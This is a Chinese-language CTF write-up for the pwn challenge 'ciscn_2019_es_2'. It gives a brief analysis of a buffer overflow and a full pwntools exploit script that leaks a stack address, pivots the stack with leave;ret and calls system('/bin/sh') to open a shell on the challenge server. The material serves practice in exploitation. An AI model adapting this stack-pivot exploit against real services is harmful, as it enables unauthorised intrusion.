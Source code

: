 ```yaml
---
title: "ciscn_2019_es_2"
description: ""
date: 2023-04-07T16:58:40+08:00
lastmod: 2023-04-07T16:58:40+08:00
draft: false
images: []
type: docs
weight: 979
toc: true
---
```


## 0x01 分析

![ef8a5afff8980929b47ac638425f9a8b](images/ef8a5afff8980929b47ac638425f9a8b.png)  

这里溢出只能覆盖到函数返回地址

![36701aa1b9f32bcb3b0cdaf99016faf9](images/36701aa1b9f32bcb3b0cdaf99016faf9.png)  

没有现成的getshell函数，也没有 `/bin/sh` 字符串，所以要想办法写入字符串并将其传递给system函数

![fb02ecd459c9d0e1c7983f317ec7b08e](images/fb02ecd459c9d0e1c7983f317ec7b08e.png)  

从调试可以看到栈中有栈地址，可以通过溢出+printf将其打印出来，然后利用栈迁移来实现攻击

## 0x02 Exploit

```python
from pwn import*
context.log_level = 'debug'

# o = process("./pwn")
o = remote("node4.buuoj.cn", 27382)
leave_ret = 0x80485FD
sys_plt = 0x8048400 
payload = b'a'*(9*4)
o.send(payload)
o.recvuntil(b'a'*36)
stack = u32(o.recv(4))
log.info(hex(stack))
buf = stack - (0xffffd544 - 0xffffd460)
payload = b"aaaa" + p32(sys_plt)*2 + p32(buf+16) + b"/bin/sh"
payload = payload.ljust(40, b'\x00')
payload += p32(buf) + p32(leave_ret)
o.send(payload)
o.interactive()

```

![96fe9331d0ce9cb5283bfa7d32ee7fe1](images/96fe9331d0ce9cb5283bfa7d32ee7fe1.png)

自行调试
